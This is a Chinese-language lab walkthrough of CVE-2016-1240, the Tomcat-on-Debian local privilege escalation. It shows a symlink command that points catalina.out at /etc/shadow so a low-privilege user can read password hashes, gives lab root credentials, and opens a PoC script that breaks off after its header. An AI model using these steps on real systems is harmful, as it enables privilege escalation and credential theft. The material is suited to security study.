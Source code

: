 1. 这个脚本运行时的权限必然是root权限。因为普通用户是无法使用chown命令，也就是没有更高的权限。
2. 该脚本使用touch命令创建文件，此时存在以下：文件存在、不存在、存在为符号链接等情况，当文件为符号链接时会默认地对链接的文件进行操作。
3. 脚本运行完毕后Tomcat服务器启动，此时catalina.out这个log文件的所属用户为tomcat，所属组为root。

综述上述，这就给漏洞利用创造了可能。

接下来我们来验证是否可以利用：

当前的用户为tomcat7。这就是说我们能够更改所属用户为tomcat7的catalina.out这个log文件的内容和属性。

更改它的属性，让他指向/etc/shadow/文件夹下，现在我们创建一个指向 /etc/shadow 的符号链接。

使用命令`ln -fs /etc/shadow /var/log/tomcat7/catalina.out`,这时候就可以在/etc/shadow下创建一个链接，就相当于Windows的快捷方式一样。

![](images/15893695397995.png)


此时我们查看文件cataline.out的内容，此时是权限不够，禁止读取cataline.out的内容的：

![](images/15893695461418.png)


现在我们需要登陆root账户重启tomcat。登陆方法与登陆Tomcat7 用户相同，账号为：root, 密码为：123456 。重启Tomcat的命令为：

`service tomcat7 restart`

重启成功之后我们再次使用低权限用户读取cataline.out的内容：使用命令


```bash
head /var/log/tomcat6/catalina.out
```

使用head命令可以输出文件前十行的内容，而cat命令则是预览文件的全部内容。

![5438ce0a227245e7be0edf8b40445357](images/5438ce0a227245e7be0edf8b40445357.gif)


*原理:**当Tomcat服务重启时，系统默认重新加载/var/log/tomcat6/catalina.out脚本，由于此时tomcat的日志文件指向了/etc/shadow文件; 而该文件就是我们之前创建的链接文件，而链接文件属于Tomcat7这个低权限用户，因此，我们就可以查看其中内容了。

#### 漏洞复现

本步将使用poc根据Tomcat7漏洞进行提权

**poc**


```bash
#!/bin/bash
#
# Tomcat 6/7/8 on Debian-based distros - Local Root Privilege Escalation Exploit
#
# CVE-2016-1240
#
# Discovered and coded by:
#
# Dawid Golunski
# http://legalhackers.com
#
# This exploit targets Tomcat (versions 6, 7 and 8) packaging on 
# Debian-based distros including Debian, Ubuntu etc.
# It allows attackers with a tomcat shell (e.g. obtained remotely through a 
# vulnerable java webapp, or locally via weak permissions on webapps in the 
# Tomcat webroot directories etc.) to escalate their privileges to root.
#
# Usage:
# ./tomcat-rootprivesc-deb.sh path_to_catalina.out [-deferred]
#
# The exploit can used in two ways:
#
# -active (assumed by default) - which waits for a Tomcat restart in a loop and instantly
```